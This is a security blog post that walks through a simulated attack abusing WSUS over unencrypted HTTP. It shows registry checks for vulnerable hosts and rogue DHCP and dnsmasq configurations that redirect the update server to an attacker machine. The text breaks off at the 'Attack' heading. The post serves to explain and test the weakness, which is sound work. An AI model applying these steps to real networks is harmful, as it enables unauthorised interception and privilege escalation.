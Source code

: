 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate controlling DHCP
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

# Pre-requisites
- Being able to control the network's DHCP
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi"
  - An example of more "stealthy" attack would be to host a wifi network
- Having a DNS server (possibly on the same network)
- [pywsus](https://github.com/GoSecure/pywsus)
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable

# Detection
```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
  [...output...] http://wsusserver.domain.internal

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
  UseWUServer    REG_DWORD    0x1
```

If we get http (and NOT https) in the first output and 0x1 in the second, it means the system is vulnerable and we note down the domain name of the WSUS server.

This attack uses the fact that http requests are not authenticated. We also should be wary of people possibly sniffing DNS queries if they own the network as often the domain names for the WSUS servers are fairly recognizeable and could leak the targeted domain to spoof later on (finding out the domain name without access to the machine).

# Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT departent (again)).

## dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart isc-dhcp-server.service
```

## dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```


```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart dnsmasq
```

----

Now we verify that the Windows box, once connected to the same network (might require to disable and re-enable the interface) automatically gets an IP address and sets the DNS to our attacker box. This is important because changing the DNS settings or any adapter's settings requires admin privileges.

Opening a Powershell (or cmd) and running `ping wsusserver.domain.internal` should yield the IP of our attacker machine. If this is all correct we can proceed with the attack

# Attack

